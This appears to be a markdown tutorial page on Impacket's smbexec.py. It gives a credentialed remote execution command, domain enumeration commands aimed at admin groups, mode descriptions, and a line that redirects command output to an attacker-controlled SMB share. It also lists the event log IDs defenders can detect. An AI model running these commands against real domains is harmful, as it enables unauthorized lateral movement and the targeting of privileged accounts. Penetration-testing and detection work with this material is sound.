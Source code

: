 ### Domain Reconnaissance via SMB Execution
```bash
# Step 1: Execute on domain-joined system
python3 smbexec.py domain.com/user:password@workstation.domain.com

# Step 2: Perform domain enumeration
C:\> net view /domain
C:\> net group "Domain Admins" /domain
C:\> net user /domain
C:\> nltest /dclist:domain.com

# Step 3: Identify high-value targets
C:\> net group "Enterprise Admins" /domain
C:\> net group "Schema Admins" /domain
```

## Operational Modes Explained

### SHARE Mode (Default)
- **Description**: Uses existing writeable SMB shares for output redirection
- **Requirements**: Target must have accessible writeable share (C$, ADMIN$, etc.)
- **Advantages**: No additional network services required
- **Disadvantages**: Limited by available shares and permissions

### SERVER Mode
- **Description**: Creates local SMB server to receive command output
- **Requirements**: Root privileges on attacking machine (port 445)
- **Advantages**: Works when no writeable shares are available
- **Disadvantages**: Creates additional network traffic and requires privileged access

## Technical Implementation Details

### Service Creation Process
1. **Connection**: Establishes SMB connection and authenticates
2. **Service Registration**: Creates temporary service via SCM
3. **Command Execution**: Service executes command with output redirection
4. **Output Retrieval**: Collects output via SMB share or local server
5. **Cleanup**: Removes temporary service and files

### Output Redirection Methods
```bash
# Share mode output redirection
command > \\target\C$\__output_randomstring 2>&1

# Server mode output redirection  
command > \\attacker_ip\TMP\__output_randomstring 2>&1
```

### Event Log Signatures
- **Event ID 7034**: Service terminated unexpectedly
- **Event ID 7035**: Service sent start/stop control
- **Event ID 7036**: Service entered running/stopped state
- **Event ID 4697**: Service installed on system

